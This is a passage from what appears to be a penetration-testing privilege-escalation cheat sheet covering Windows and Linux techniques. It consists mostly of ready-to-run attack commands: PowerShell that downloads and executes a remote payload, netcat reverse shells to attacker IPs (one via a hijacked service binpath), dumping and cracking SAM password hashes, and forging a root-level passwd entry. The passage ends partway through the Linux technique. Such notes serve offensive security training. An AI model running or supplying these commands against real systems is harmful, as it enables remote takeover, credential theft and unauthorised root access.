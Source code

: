 ```console
PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\> $username = "<domain>\<user>"
PS C:\> $password = '<password>'
PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
PS C:\> Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://<ip/host>:<port>/path/to/file.evil') } -Credential $cred -Computer localhost
-----------------------------------------------------------------------------------------------------
Invoke-Command -ComputerName localhost -Creadential $credential -ScriptBlock { C:\inetpub\wwwroot\internal-01\log\nc.exe 10.10.14.4 1338 -e cmd.exe }
```

#### Incorrect permisions in services (sc config binpath)

Binpath is set as running `cmd.exe` passing a commad to execute to it (so once the process dies, the one executed by it so the command to `cmd.exe` remains):

```console
sc config upnphost binpath= "C:\WINDOWS\System32\cmd.exe /k C:\inetpub\wwwroot\nc.exe -nv 192.168.42.42 443 -e C:\WINDOWS\System32\cmd.exe" 
```

#### SAM + SYSTEM + Security

If those 3 files are in your hands (you could download to your attacker machine), you can dump hashes and crack them:

```console
/usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM.bak -security SECURITY.bak -system SYSTEM.bak LOCAL

sudo john dumped_hashes --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

### Linux

#### /home/user/openssl =ep (empty capabilities)

Make 2 copies of passwd, one as backup of the original, and one that will be used as custom:

```console
cp /etc/passwd /tmp/passwd.orig
cp /etc/passwd /tmp/passwd.custom
```

Now, a custom user will be created and added to `/tmp/passwd.custom` with `customPassword` and as root user (UID = GID = 0):

```console
echo 'ceso:'"$( openssl passwd -6 -salt xyz customPassword )"':0:0::/tmp:/bin/bash' >> /tmp/passwd.custom
```
